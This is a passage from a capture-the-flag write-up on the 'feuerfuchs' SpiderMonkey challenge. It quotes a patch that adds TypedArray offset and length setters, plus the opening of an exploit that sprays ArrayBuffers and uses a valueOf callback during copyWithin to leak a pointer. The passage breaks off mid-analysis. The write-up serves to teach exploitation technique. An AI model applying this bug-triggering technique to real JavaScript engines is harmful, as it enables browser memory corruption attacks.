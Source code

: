 Let's start with the [patch](https://github.com/saelo/feuerfuchs/blob/master/feuerfuchs.patch) first: 

```diff
........................
... ( other patch ).....
........................

 /* static */ const JSPropertySpec
 TypedArrayObject::protoAccessors[] = {
-    JS_PSG("length", TypedArray_lengthGetter, 0),
     JS_PSG("buffer", TypedArray_bufferGetter, 0),
+    JS_PSGS("length", TypedArray_lengthGetter, TypedArray_lengthSetter, 0),
     JS_PSG("byteLength", TypedArray_byteLengthGetter, 0),
+    JS_PSGS("offset", TypedArray_offsetGetter, TypedArray_offsetSetter, 0),
     JS_PSG("byteOffset", TypedArray_byteOffsetGetter, 0),
     JS_PS_END
 };
 
........................
... ( other patch ).....
........................
```

We can see that the patch add `setter` to both `offset` and `length` property in the `TypedArray` class, which allow us to set the `offset` ( starting point of the data buffer ) and the `length` of a `TypedArray`. However the patch has also handled the boundary check for `offset` and `length` as well, so we can't do something like `tarray.offset=10000` and use out-of-boundary (OOB) read/write to exploit the service. We'll have to find another way to exploit the vulnerability.


## Analyzing the Exploit

We now start analyzing the [exploit code](https://github.com/saelo/feuerfuchs/blob/master/exploit/pwn.js) that saelo wrote for this challenge. 
The exploit function start at line 233:

```javascript
function pwn() {
    // Allocate multiple ArrayBuffers of the largest size such that the data is still stored inline
    var buffers = [];
    for (var i = 0; i < 100; i++) {
        buffers.push(new ArrayBuffer(96));
    }

    var view = new Uint8Array(buffers[79]); // view is our TypedArray
    var hax = { valueOf: function() { view.offset = 88; return 0; } };

    // Trigger the bug first time to leak the data pointer of the following ArrayBuffer
    view.copyWithin(hax, 32+8, 40+8);
```

To understand why the bug is triggered, we'll have to dig into the source code of [copyWithin](https://github.com/mozilla/gecko-dev/blob/c64d600a96280475b6306a3b1ff933431c572784/js/src/builtin/TypedArray.js#L156):
